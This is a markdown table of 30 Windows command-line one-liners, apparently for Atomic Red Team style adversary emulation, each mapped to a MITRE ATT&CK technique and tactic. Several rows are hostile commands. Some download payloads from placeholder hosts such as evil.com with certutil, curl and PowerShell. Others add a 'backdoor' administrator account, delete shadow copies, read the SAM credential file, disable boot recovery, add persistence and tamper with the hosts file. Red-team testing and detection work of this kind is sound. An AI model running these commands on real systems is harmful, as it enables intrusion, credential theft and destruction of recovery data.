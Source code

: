 # 🔥 Extended Atomic Red Team One-Liners with MITRE ATT&CK Mapping and OS

|   # | Command                                                                                   | Description                             | MITRE Technique   | MITRE Tactic            | Operating System |
|----:|--------------------------------------------------------------------------------------------|-----------------------------------------|--------------------|--------------------------|------------------|
|   1 | powershell -Enc UwB0AGEAcgB0AC0AcwBsAGUAZQBwACAAMQAwAA==                                  | Obfuscated PowerShell                   | T1027.001          | Defense Evasion          | Windows          |
|   2 | certutil -urlcache -split -f http://example.com/evil.exe evil.exe                         | File download using certutil            | T1105              | Command and Control      | Windows          |
|   3 | reg add HKCU\...\Run                                                                       | Registry Run key persistence            | T1547.001          | Persistence               | Windows          |
|   4 | wmic process call create "powershell.exe -Command IEX ..."                                 | Executes command via WMIC               | T1047              | Execution                 | Windows          |
|   5 | rundll32.exe javascript:"\..\mshtml,RunHTMLApplication "...                                | Executes JavaScript via rundll32        | T1218.011          | Defense Evasion          | Windows          |
|   6 | schtasks /create /tn "EvilTask" /tr "cmd.exe /c calc.exe" /sc minute /mo 5                 | Scheduled task creation                 | T1053.005          | Persistence               | Windows          |
|   7 | bcdedit /set {current} bootstatuspolicy ignoreallfailures                                 | Disables recovery boot                  | T1562.001          | Defense Evasion          | Windows          |
|   8 | powershell -Command "Get-Content C:\Windows\System32\config\SAM"                           | Access to SAM file                      | T1003.002          | Credential Access         | Windows          |
|   9 | net user backdoor Pass123! /add                                                            | Creates a user account                  | T1136.001          | Persistence               | Windows          |
|  10 | net localgroup administrators backdoor /add                                                | Adds user to admin group                | T1068              | Privilege Escalation      | Windows          |
|  11 | vssadmin delete shadows /all /quiet                                                        | Deletes shadow copies                   | T1490              | Impact                    | Windows          |
|  12 | curl http://evil.com/malware.ps1 -o malware.ps1                                            | File download using curl                | T1105              | Command and Control       | Windows          |
|  13 | bitsadmin /transfer myjob ...                                                              | File download using BITS                | T1197              | Command and Control       | Windows          |
|  14 | powershell -NoP -NonI -W Hidden -Exec Bypass -Command "IEX(...)"                           | Obfuscated PowerShell w/ bypass         | T1059.001          | Execution                 | Windows          |
|  15 | echo malicious >> C:\Windows\System32\drivers\etc\hosts                                    | Modifies hosts file                     | T1565.001          | Impact                    | Windows          |
|  16 | whoami /priv                                                                               | Enumerate privileges of current user    | T1033              | Discovery                 | Windows          |
|  17 | tasklist                                                                                   | List running processes                  | T1057              | Discovery                 | Windows          |
|  18 | netstat -an                                                                                | Check active network connections        | T1049              | Discovery                 | Windows          |
|  19 | net use \\\\evilserver\\share                                                              | Access network share                    | T1021.002          | Lateral Movement          | Windows          |
|  20 | arp -a                                                                                     | Enumerate ARP table                     | T1016              | Discovery                 | Windows          |
|  21 | nltest /dclist:domain                                                                      | List domain controllers                 | T1018              | Discovery                 | Windows          |
|  22 | cmd.exe /c "echo hello > %temp%\\evil.txt"                                                 | Create file in temp folder              | T1059              | Execution                 | Windows          |
|  23 | powershell Invoke-WebRequest -Uri http://evil.com -OutFile payload.exe                     | Download file via PowerShell            | T1105              | Command and Control       | Windows          |
|  24 | reg query HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Uninstall                   | Enumerate installed software            | T1518.001          | Discovery                 | Windows          |
|  25 | net group "Domain Admins" /domain                                                          | List domain admins                      | T1069.002          | Discovery                 | Windows          |
|  26 | net config workstation                                                                      | System info via net command             | T1082              | Discovery                 | Windows          |
|  27 | cmd /c "for /L %i in (1,0,2) do @echo Looping..."                                          | Infinite loop test (harmless)           | T1499              | Impact                    | Windows          |
|  28 | wmic product get name,version                                                              | Get installed programs                  | T1518.001          | Discovery                 | Windows          |
|  29 | set                                                                                        | Dump environment variables              | T1082              | Discovery                 | Windows          |
|  30 | sc query                                                                                   | Enumerate services                      | T1007              | Discovery                 | Windows          |

